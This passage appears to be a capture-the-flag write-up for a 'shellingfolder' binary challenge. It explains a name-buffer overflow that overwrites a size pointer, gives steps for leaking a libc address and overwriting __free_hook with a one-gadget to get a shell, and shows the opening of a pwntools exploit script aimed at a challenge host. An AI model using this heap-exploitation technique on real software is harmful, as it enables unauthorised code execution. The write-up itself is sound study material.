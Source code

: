 ```c
            if ( cur_folder->sub_file[idx]->is_dir == 1 )
            {
                *v3 = *v3;
            }
            else
            {
                printf("%s : size %ld\n", &s, cur_folder->sub_file[idx]->file_size);
                *v3 += cur_folder->sub_file[idx]->file_size;
            }
        }
        ++idx;
    }
    printf("The size of the folder is %ld\n", cur_folder->file_size);

}
```
When we set a file's name, we can input at most 31 characters. Inside the `cal_folder_size` function, the program will try to copy the file's name into a buffer `s`, which its size is only 24 bytes long. The vulnerability will cause the program to overwrite the `v3` variable.

The `v3` variable is an `int*` type pointer, which points to the current folder's `file_size`. Since we can overwrite this pointer, we can try to control this pointer and the size of the `sub_file[idx]`, so when the program execute the code at line:
```c
*v3 += cur_folder->sub_file[idx]->file_size
```
**it will actually let us control the value of any address.**

But remember the program has all the protection enabled, including **PIE**, so first we'll have to leak some address. Here's how I leak the address of the libc:

1. Create & delete some folders, so the pointer that points to the head of smallbin will appear on the heap memory.
2. Exploit the buffer overflow vulnerability, partial overwrite the `v3` pointer and make it point to a `struct file` pointer `p` ( `*v3 = p`).  
3. Control a `sub_file`'s `file_size`, so when it comes to the line `*v3 += cur_folder->sub_file[idx]->file_size`, it will adjust the value of `p`, making `p->name` point to the libc's address ( address of the smallbin's head )
4. List the files in the current folder and leak the libc's address.

After we got the libc's address, we can use the same vulnerability to overwrite the `__free_hook` function pointer into the address of **one gadget**, and get the shell by deleting a file. Notice that `file_size` stores the value returned by `atoi`, a four-byte integer, so we'll have to overwrite `__free_hook` twice : first  overwrite `__free_hook`,  then overwrite `__free_hook+4`.

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "52.69.237.212"
#HOST = "127.0.0.1"
PORT = 4869
ELF_PATH = "./shellingfolder_noalarm"
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"
LIBC_PATH = "./libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
```